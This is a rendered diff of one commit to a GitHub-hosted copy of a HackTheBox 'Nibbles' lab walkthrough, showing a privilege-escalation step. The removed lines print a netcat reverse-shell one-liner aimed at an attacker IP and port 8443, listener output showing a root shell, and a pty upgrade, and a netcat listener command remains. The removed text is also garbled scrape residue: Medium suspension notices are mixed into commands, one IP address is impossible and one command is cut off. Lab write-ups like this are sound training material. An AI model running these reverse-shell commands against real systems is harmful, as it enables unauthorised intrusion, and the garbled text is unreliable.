

Before and after one commit to mohamed-gaber0/WRITEUPS.github.io, a Markdown page: HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md
+++ b/HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md
@@ -82,26 +66,6 @@ aaa 1 Medium members get access to everything.
-Upgrade today
-
-
-
-~/Downloads
-
-Listening on [any] 8443 .. connect to [18.18.16.7] from (UNKNOWN) [180.129.118.432] 45498 /bin/sh: @: can’t access tty; job control turned off # id uid=@(root) gid=@(root) groups=@( root) # python3 -c ‘import pty; pty.spawn("/bin/bash")'
-
-HTB Nibbles Machine Walkthrough: From Web Exploit to Root | by MOGS | Aug, 2026 | Medium
-
-9/2/26, 12:45 PM
-
-`cd` _Your account was found in violation of the Medium Rules._ `/home/nibbler/personal/stuff` _Learn more about reasons for suspension._
-
-2. Use `echo` and `tee` to overwrite the script with a netcat reverse shell oneliner:
-
-`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 8443 >/tm`  
-
-**_(Note: You are changing the destination port to_** `8443` **_here to distinguish it from your first shell)._**
+#### **_(Note: You are changing the destination port to_** `**8443**` **_here to distinguish it from your first shell)._**
 
 Now, on your attacking machine, open a new terminal tab and set up a listener on the new port:
 
-```
-nc-lvnp8443
-```
+nc \-lvnp 8443
 
````
Also changed, not shown: other parts of HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md (+51 -123 lines).
